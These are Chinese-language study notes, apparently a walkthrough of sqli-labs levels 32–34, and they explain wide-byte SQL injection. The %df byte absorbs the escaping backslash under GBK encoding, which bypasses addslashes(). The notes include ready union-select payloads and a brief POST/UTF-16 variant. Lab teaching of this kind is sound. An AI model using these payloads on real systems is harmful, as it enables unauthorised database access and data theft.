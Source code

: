 ### 32、绕过单引号与反斜杠

>   -   原理：mysql在使用GBK编码的时候，会认为两个字符为一个汉字，，例如%aa%5c 就是一个
>       汉字（前一个 ascii 码大于 128 才能到汉字的范围）。
>
>   -   去除 单引号的斜杠两种思路
>
>       -   ```c
>           使用%df吃掉 \
>                   
>           具体的原因是 urlencode(‘\) = %5c%27，我们在%5c%27 前面添加%df，形
>           成%df%5c%27，此时%df%5c 就是一个汉字，%27 则作为一个单独的符号在外面，同时也就达到了我们的目的
>           ```
>
>       -   ```c
>           2、将 \’ 中的 \ 过滤掉，例如可以构造 %**%5c%5c%27 的情况，后面的%5c 会被前面的%5c
>           给注释掉。这也是 bypass 的一种方法。
>           ```
>
>           
>
>   ```sql
>   -- payload构造
>   -- 只需在单引号前面添加一个【%df】即可
>   -- order by 正常显示表示有这么多列，不正常表示没有这么多列
>   ?id=-1%df' order by 4 --+
>   ?id=-1%df' union select 1,2,3 --+
>   %df%27%20union%20select%201,2,3--+
>   ```

#### 32.1、addslashes() 函数返回在预定义字符之前添加反斜杠的字符

-   使用%df绕过即可
-   防御方式：使用 addslashes(),我们需要将 mysql_query 设置为 binary 的方式，才能防御此漏洞

### 33、使用%df吃掉反斜杠

```clojure
Less-32/?id=-1%df%27union%20select%201,user(),3-
```



### 34、本关是 post 型的注入漏洞

>   是将 post 过来的内容进行了 ‘ \ 的处理
>
>   我们的方法就是将过滤函数添加的 \ 给吃掉
>
>   在 post 型的注入当中，将 utf-8 转换为 utf-16 或 utf-32，例如将 ‘ 转为 utf-16 为 【�'】 。我们就
>   可以利用这个方式进行尝试。
>
>   然后在username处以：�'  #中填写注入语句
>
>   一般需要注意username可能会限制长度
>
>   
